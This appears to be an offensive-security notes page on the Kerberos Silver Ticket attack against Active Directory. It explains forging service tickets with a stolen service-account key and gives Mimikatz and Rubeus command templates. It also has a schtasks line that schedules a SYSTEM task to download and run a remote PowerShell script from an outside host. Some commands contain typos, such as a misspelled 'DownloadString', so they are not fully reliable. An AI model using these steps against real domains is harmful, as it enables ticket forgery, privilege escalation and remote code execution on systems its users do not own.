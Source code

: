 #mimikatz #schtasks #klist
- STs are encrypted with the service user's key derived from it's password.
- If we have this key, we can forge ST's for any service running under that user. These tickets are called Silver Tickets.
- Way more silent and powerful compared to the Golden Ticket attack because we are not interacting with the Domain Controller. We only interact with the service.
- A trade-off of this attack is that, the persistence duration is less than of the Golden Ticket attack, as the machine account (response for running services like win-rm, smb etc.) usually has a password rotation duration of 30 days.
- The key can be dumped from the lsass process memory or by [Kerberoast](../Privilege%20Escalation/Kerberoast.md), or dumping the entire AD Database (NTDS.dit file)
- The PAC is signed with the `krbtgt`'s account, hence a fake signature is used to create the PAC. The PAC signature is not verified if the the ticket is less than 20 minutes old. We can also add more privilege to the PAC, as it is not verified. For example, we can modify the PAC user group to include the `Domain Admins`. 
### Mimikatz
- Mimikatz can be used to forge silver tickets
```powershell
# Create silver ticket to list shares on the machine
kerberos::golden
	/user:administrator # username for which ST is generated
	/domain:<domain> # fqdn of the domain
	/sid:<sid> # sid of the domain
	/target:<server> # fqdn of the target server
	/service<service> # SPN of the service for which ST will be generated
	/aes256:<key> # aes key of the service account
	/id:<id> /group:<group> # Optional ID and groups
	/ptt # inject the ticket in current session
	# or
	/ticket # save the ticket on disk
	

# Create silver ticket to gain remote execution on the machine.
# set /service:HOST, this allows to schedule tasks on the machine.
kerberos::golden /domain:mydomain.local /sid:<domain-sid> /target:<targetmachine-FQDN> /service:HOST /rc4:<key> /user:Administrator /ptt
# verifiy with klist
klist
# shchedule the malicious task
schtasks /create /S machine.mydomain.local /SC Weekly /RU "NT Authoririty\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DonwloadString(''http://ip/file.ps1''')'"
# Run the task
schtasks /Run /S machine.mydomain.local /TN "STCheck"
```
### Rubeus
```powershell
Rubeus.exe
	silver
	/service:<spn> # SPN of the service
	/aes256:<key> # kerberos key of the service account of the above service
	/user:<username> # username for which the service account is created
	/ldap # make ldap queries to fetch details
	/ptt # Inject the key in current process memory
	[/printcmd] # print the rubues command to crate the same ticket with information fetched from ldap
```
### Services
- `HTTP` for WIM-RM
- `cifs` for SMB
- `HOST` for scheduling tasks
- `RPCSS` and `HOST` or WMI